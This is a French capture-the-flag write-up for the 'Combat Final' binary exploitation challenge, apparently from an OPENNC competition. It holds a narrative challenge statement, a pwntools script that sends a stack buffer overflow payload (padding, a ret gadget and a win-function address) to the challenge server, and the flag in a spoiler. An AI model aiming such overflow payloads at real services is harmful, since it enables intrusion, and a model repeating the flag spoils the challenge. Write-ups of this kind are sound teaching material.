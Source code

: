 ## Enoncé

>Les anciens guerriers de Naori croyaient que pour accéder à la connaissance ultime, il fallait vaincre non seulement ses ennemis, mais aussi ses propres faiblesses. Le Combat Final est une épreuve mythique où chaque guerrier doit prouver sa force, son intelligence, et sa maîtrise des arts guerriers. Ce n'est qu'en triomphant de cette épreuve que vous pourrez enfin atteindre le sommet du sanctuaire et révéler le dernier secret.
>
>Vous voilà face à l'ultime épreuve. Vous vous trouvez dans une arène souterraine, éclairée uniquement par des torches vacillantes. Au centre de l'arène se dresse une statue imposante d'un ancien guerrier, l'arme au poing. Une inscription à ses pieds indique :
>
>"Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude."
>
>Pour sortir victorieux de cette épreuve, vous devrez exploiter les faiblesses de l'adversaire. Cette fois, il s'agit de trouver une vulnérabilité cachée dans le code du sanctuaire, représentée par le programme que vous devez maîtriser.
>
>En triomphant de cette épreuve, vous serez reconnu comme un véritable maître du Chemin du Guerrier. Les esprits de Naori vous accorderont leur ultime bénédiction, et vous aurez enfin accès aux secrets cachés depuis des siècles.
>
>Jeune guerrier, ce combat est le plus difficile que vous aurez à affronter, mais c'est aussi le dernier obstacle entre vous et la gloire. Faites preuve de courage, de ruse, et de précision. Que la force des anciens guerriers de Naori soit avec vous dans ce Combat Final.


![combats](../../../../attachements/combats)
## Résolution


```python
#!/usr/bin/env python3

from pwn import *

#context(arch="amd64", os="linux", endian="little", word_size=64)
exe = context.binary = ELF(args.EXE or 'combats')

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```

>[!question]- Spoiler du flag
> OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}

